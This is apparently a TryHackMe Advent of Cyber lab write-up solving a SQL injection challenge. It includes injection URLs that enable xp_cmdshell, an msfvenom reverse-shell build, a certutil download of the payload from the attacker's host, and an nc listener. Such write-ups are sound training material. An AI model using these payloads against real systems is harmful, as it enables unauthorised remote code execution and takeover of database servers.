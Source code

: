 # Advent of Cyber

Day 10 - SQL Injection

----------------------------------

- Manually navigate the defaced website to find the vulnerable search form. What is the first webpage you come across that contains the gift-finding feature?
	- `/giftsearch.php`

- Analyze the SQL error message that is returned. What ODBC Driver is being used in the back end of the website?
	- `ODBC Driver 17 for SQL Server`

- Inject the 1=1 condition into the Gift Search form. What is the last result returned in the database?
	- `THM`

- What flag is in the note file Gr33dstr left behind on the system?
	- `THM`

- What is the flag you receive on the homepage after restoring the website?
	- `THM`


<details>
Steps:

1. 

----------------------------------------------------------------
2. Just by putting a ' apostrophe in the age paramater we can now cause errors and review the ODBC driver

```
age='
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/14915c0b-d13a-4b1e-8589-0fa75722b507)


 ----------------------------------
First we need to enable the xp_cmdshell in the SQL server
	
```
http://10.10.82.81/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/a28b6e6c-69ec-4473-bcd3-1ff56c14dd38)


We need to create a reverse shell to the victim machine

We will use the msfvenom to create the exe file

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe
```
![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/d26ab8ab-8ded-44ae-842e-1d92b50277af)

Then we will open our python server to port 8000

```
python3 -m http.server 8000
```

Then we will put this reverse shell into the victim machine using the xp_cmdshell command 

```
http://10.10.82.81/giftresults.php?age='; EXEC xp_cmdshell 'certutil -urlcache -f http://YOUR.IP.ADDRESS.HERE:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/49693447-2836-46b7-879f-dd781b2ac6ab)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/7ef21343-bd57-48f0-b382-85103c5d6fba)

After that we will now use NC to listen to the port that we specified

```
nc -lvnp 4444
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/40f6d77c-7d22-4643-ba3c-e4f976c2d4ac)

Then we need to execute the exe file in the victim side. Just by typing in the URL

```
http://10.10.82.81/giftresults.php?age='; EXEC xp_cmdshell 'C:\Windows\Temp\reverse.exe'; --
```

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/14f82251-691c-42e0-bf2c-26538034d7cc)

After that we will get the command line to the victim's machine now we have root access to their machine....

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/d17408d8-c8c0-49f8-912f-a65033220c20)


------------------------------------------------------
3. If we will put ' or 1=1 -- in the URL parameter we can return all of the content in the database. Along side with the THM flag.

 ![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f4e75f6b-0079-4ad9-8e1f-b2dcfca64476)

------------------------------------------------------
4. Just by a few navigations we can now see the files in the Users Desktop

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/6173ee70-32e5-407c-a3cb-d83a8607432a)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/488968cb-677a-4745-9a4b-0e4973a45164)

-----------------------------------------------------

5. Visit the /index.php we have a flag

As you can see we now restore the website using the bat file

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/f6ac1f9c-00d3-435f-8ccc-13ce197f6b6c)

![image](https://github.com/kyou00/tryhackme-writeups/assets/92074685/71c0eff7-ac59-4da6-9122-220854f775fd)

</details>

